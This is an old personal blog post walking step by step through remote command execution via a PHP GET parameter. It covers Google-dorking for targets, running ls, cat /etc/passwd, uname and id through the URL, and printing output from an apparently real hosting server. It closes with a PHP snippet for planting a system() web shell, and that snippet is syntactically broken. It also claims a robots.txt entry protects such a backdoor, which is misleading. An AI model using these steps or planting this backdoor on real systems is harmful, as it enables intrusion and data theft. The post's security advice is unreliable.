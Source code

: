 ```yaml
---
id: 1702
title: A history of hack!
date: 2011-11-14T08:30:56+01:00
author: ax
excerpt: |
  <p>History informativa di un  attacco RCE <em>"tipico"</em> via PHP GET variable.<strong><br />
  </strong></p>
layout: post
guid: http://linuax.altervista.org/blog/?p=1702
permalink: /2011/11/14/a-history-of-hack/
categories:
  - Hacking
  - History
tags:
  - history
  - php get
  - rce
---
```

<span style="font-size: large;"><strong>Remote Code Execution via PHP GET variable.</strong></span>

- Searching for vulnerable link dorking with google:

<pre>inurl:"*.php?lol="</pre>

- Found something...

<pre>http://www.sito.com/page.php?var=</pre>

- Try some stuffs...

<pre>http://www.sito.com/page.php?var='</pre>

- Nothing happens

<pre>http://www.sito.com/page.php?var=ls</pre>

- Something happens :)

Get the current directory list.

<pre>http://www.sito.com/page.php?var=ls</pre>

<pre>CHANGELOG.php
 COPYRIGHT.php
 CREDITS.php
 LICENSE.php
 LICENSES.php
 administrator
 cache
 components
 configuration.php
 configuration.php-dist
 htaccess.txt
 images
 includes
 index.html.bak
 index.php
 index2.php
 language
 libraries
 logs
 media
 metaconfig.xml
 migration
 mod_acajoom.php
 mod_acajoom.xml
 modules
 plugins
 robots.txt
 templates
 tmp
 xmlrpc</pre>

-Get the list of the administrator directory.

<pre>http://www.sito.com/page.php?var=ls administrator</pre>

<pre>backups
 cache
 components
 help
 images
 includes
 index.php
 index2.php
 index3.php
 language
 modules
 templates</pre>

- Catting the /etc/passwd file.

<pre>http://www.sito.com/page.php?var=cat /etc/passwd</pre>

<pre># $FreeBSD: src/etc/master.passwd,v 1.40.22.2 2011/03/28 17:41:10 trociny Exp $
 #
 root:*:0:0:Charlie &:/root:/bin/csh
 toor:*:0:0:Bourne-again Superuser:/root:
 daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
 operator:*:2:5:System &:/:/usr/sbin/nologin
 bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
 tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
 kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
 games:*:7:13:Games pseudo-user:/usr/games:/usr/sbin/nologin
 news:*:8:8:News Subsystem:/:/usr/sbin/nologin
 man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
 sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
 smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
 mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
 bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
 proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
 _pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
 _dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
 uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
 pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
 www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
 hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
 nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
 admin:*:500:500:Systems Administrator:/home/admin:/bin/sh
 alias:*:81:81:QMail user:/var/qmail/alias:/nonexistent
 qmaild:*:82:81:QMail user:/var/qmail:/nonexistent
 qmaill:*:83:81:QMail user:/var/qmail:/nonexistent
 qmailp:*:84:81:QMail user:/var/qmail:/nonexistent
 qmailq:*:85:82:QMail user:/var/qmail:/nonexistent
 qmailr:*:86:82:QMail user:/var/qmail:/nonexistent
 qmails:*:87:82:QMail user:/var/qmail:/nonexistent</pre>

- Get the system version.

<pre>http://www.sito.com/page.php?var=uname -a</pre>

<pre>FreeBSD unix3.alpha.hostsg.com 8.2-STABLE FreeBSD 8.2-STABLE #1: Wed Oct  5 01:26:08 SGT 2011     admin@master1.alpha.hostsg.com:/usr/obj/usr/src/sys/X9SCD  amd64</pre>

- Get the current path.

<pre>http://www.sito.com/page.php?var=pwd</pre>

<pre>/home/web/singaporeultimat/public_html</pre>

- And the userid with the group id.

<pre>http://www.sito.com/page.php?var=id</pre>

<pre>uid=80(www) gid=80(www) groups=80(www)</pre>

- Conclusions: if you really need a variable that allow you to execute command on the local machine make sure you create a **robots.txt** file that contains the path for preventing google dork discover this.

How to make a PHP GET variable that allow you to execute arbitrary command on the local machine.  
Just type in the .php files this strings:

<div class="codecolorer-container php dawn" style="overflow:auto;white-space:nowrap;width:%;">
  <div class="php codecolorer">
    <span class="kw1">if</span> <span class="br0">&#40;</span><span class="kw3">isset</span><span class="br0">&#40;</span><span class="re0">$_GET</span><span class="br0">&#91;</span><span class="st_h">'name'</span><span class="br0">&#93;</span><span class="br0">&#41;</span><span class="br0">&#41;</span><span class="br0">&#123;</span><br /> <span class="re0">$output</span><span class="sy0">=</span><span class="kw3">system</span> <span class="br0">&#40;</span><span class="re0">$_GET</span><span class="br0">&#91;</span><span class="st_h">'name'</span><span class="br0">&#41;</span><span class="br0">&#125;</span><span class="sy0">;</span> <span class="co1">//maybe in specify machine cloud be exec()</span><br /> <span class="re0">$echo</span> <span class="re0">$output</span><span class="sy0">;</span><br /> <span class="br0">&#125;</span>
  </div>
</div>

-Than in the browser:

<pre>http://victim.com/page=1?name=ls</pre>

\# End - Razor4x